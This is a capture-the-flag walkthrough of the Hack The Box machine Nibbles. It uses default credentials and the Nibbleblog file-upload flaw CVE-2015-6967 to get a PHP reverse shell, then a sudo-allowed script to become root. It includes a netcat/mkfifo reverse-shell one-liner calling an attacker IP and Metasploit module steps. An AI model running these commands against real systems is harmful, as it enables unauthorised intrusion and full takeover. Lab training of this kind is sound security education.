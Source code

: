 ```yaml
---
title: Nibbles - A HackTheBox machine 
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - walkthrough
  - reverse shell
  - CVE-2015-6967
---
```


# Nibbles - A Hack The Box machine


```shell-session
nmap -sC -sV -Pn 10.129.96.84 
```


Results:

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4f8ade8f80477decf150d630a187e49 (RSA)
|   256 228fb197bf0f1708fc7e2c8fe9773a48 (ECDSA)
|_  256 e6ac27a3b5a9f1123c34a55d5beb3de9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Visiting the IP:80 in the browser and reviewing source code there is a comment:

```
<!-- /nibbleblog/ directory. Nothing interesting here! -->
```

So, we have a website at http://10.129.96.84/nibbleblog/

Dirb enumeration reveals a login panel: http://10.129.96.84/nibbleblog/admin.php

```shell-session
dirb http://10.129.96.84/nibbleblog/ /usr/share/wordlists/dirb/common.txt
```

Too many login attempts too quickly trigger a lockout with the message "Nibbleblog security error - Blacklist protection".

Also, dirb enumeration reveals some directories that are listable. Browsing around we get to this file: http://10.129.96.84/nibbleblog/content/private/users.xml where user "admin" is exposed.

Also CMS version is disclosed in http://10.129.96.84/nibbleblog/README:

```
====== Nibbleblog ======
Version: v4.0.3
Codename: Coffee
Release date: 2014-04-01
```

A quick search for that version brings up this vulnerability:

https://github.com/dix0nym/CVE-2015-6967/blob/main/README.md

In the usage example we can read:

```
python3 exploit.py --url http://10.10.10.75/nibbleblog/ --username admin --password nibbles --payload shell.php
```

Default credentials are: 

```
admin:nibbles
```

Also, reading the code of the exploit, we can see that the triggered endpoint for this CVE-2015-6967 is:

```
uploadURL = f"{nibbleURL}admin.php?controller=plugins&action=config&plugin=my_image"
```

Knowing this, we can login into the panel http://10.129.96.84/nibbleblog/admin.php and go to Plugins>My Image> Configure.

In the browser, upload a file. In my case, I uploaded my [pentesmonkey](pentesmonkey.md).

Now, we need to find where this file has been saved to. After browsing around, I ended up in http://10.129.96.84/nibbleblog/content/private/plugins/my_image/

There there was a file called image.php. Before clicking on it, we open in our attacker machine a netcat listener:

```shell-session
nc -lnvp 1234
```

Click on the file image.php listed in http://10.129.96.84/nibbleblog/content/private/plugins/my_image/ and you will have a reverse shell.

Cat user.txt (under /home/nibbler).

### Privilege escalation

```shell-session
sudo -l
```

Results:

```
$ sudo -l
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```

At /home/nibbler, unzip the file personal.zip. Now you can even replace monitor.sh for a different monitor.sh.
Mine has:

```
/bin/bash
```

Now run:

```shell-session
sudo -u root .home/nibbler/personal/stuff/monitor.sh
```

And you are root. Remember to do a chmod if needed.


## Some input from HTB walkthrough

You can run nmap script for nibbles service:

```shell-session
nmap -sC -p 22,80 -oA nibbles_script_scan 10.129.42.190
```


For privilege escalation:

```shell-session
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.2 8443 >/tmp/f' | tee -a monitor.sh
```


Alternative way: 

```msf6-session
msf6 > search nibbleblog

msf6 > use exploit/multi/http/nibbleblog_file_upload

msf6 exploit(multi/http/nibbleblog_file_upload) > set rhosts 10.129.42.190
rhosts => 10.129.42.190
msf6 exploit(multi/http/nibbleblog_file_upload) > set lhost 10.10.14.2 
lhost => 10.10.14.2
```

We need to set the admin username and password admin:nibbles and the TARGETURI to nibbleblog.